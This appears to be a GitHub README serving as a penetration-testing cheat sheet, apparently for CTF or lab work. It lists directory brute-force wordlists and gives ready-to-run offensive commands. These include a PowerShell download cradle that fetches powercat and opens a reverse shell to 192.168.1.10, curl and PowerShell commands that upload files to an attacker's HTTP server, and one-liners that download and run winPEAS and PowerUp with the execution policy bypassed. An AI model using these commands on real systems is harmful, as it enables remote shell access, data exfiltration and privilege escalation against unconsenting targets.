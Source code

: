 # Cybersecurity Tools and Files
# Dictionaries
Web Directory Brute Force - Directory List 2.3 Small (87664 Lines)
```
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/directory-list-2.3-small.txt
```
Web Directory Brute Force - Big.txt (20476 Lines)
```
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/big.txt
```
Web Directory Brute Force - Common.txt (4727 Lines)
```
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt
```
# PowerCat
```
https://raw.githubusercontent.com/voidascent/sec/main/powercat.ps1
```
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.10/powercat.ps1');powercat -c 192.168.1.10 -p 9999 -e powershell
```
# HTTP Server for Upload and Download
```bash
https://raw.githubusercontent.com/voidascent/sec/main/httpserver.py
```
Usage
```bash
python3 httpserver.py # Default Port 8000
python3 httpserver.py -p 8888 # Running on Port to 8888
```
Curl (Linux and Windows cmd)
Curl Upload
```
curl -F 'file=@/home/ubuntu/Desktop/flag.txt' http://192.168.10.10:8000/
```
Curl Download
```
curl -O http://192.168.10.10:8000/download/linpeas.sh
```
PowerShell (Supported in PowerShell 3.0 and later)
PowerShell Upload
```
$FilePath = "C:\Users\Administrator\Desktop\flag.txt"; $Url = "http://192.168.10.10:8000/"; Add-Type -AssemblyName System.Net.Http; $client = New-Object System.Net.Http.HttpClient; $content = New-Object System.Net.Http.MultipartFormDataContent; $fileStream = [System.IO.File]::OpenRead($FilePath); $fileContent = New-Object System.Net.Http.StreamContent($fileStream); $content.Add($fileContent, "file", [System.IO.Path]::GetFileName($FilePath)); $result = $client.PostAsync($Url, $content).Result; $result.Content.ReadAsStringAsync().Result
```
PowerShell Download
```
Invoke-WebRequest -Uri "http://192.168.10.10:8000/download/PowerUp.ps1" -OutFile "C:\Users\Administrator\Desktop\PowerUp.ps1"
```

# WinPEAS

Exe

```powershell
https://github.com/peass-ng/PEASS-ng/releases/download/20240602-829055f0/winPEASany.exe
```

Exe - Execution

```powershell
powershell -Command "iwr -Uri 'http://192.168.10.10:8888/winPEASx64.exe' -OutFile $env:temp\winPEASx64.exe; Start-Process $env:temp\winPEASx64.exe"
```

Ps1

```powershell
https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1
```

Ps1 - Execution

```powershell
powershell -Command "iwr -Uri 'http://192.168.10.10:8888/winPEAS.ps1' -OutFile $env:temp\winPEAS.ps1; Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; & $env:temp\winPEAS.ps1"
```
```
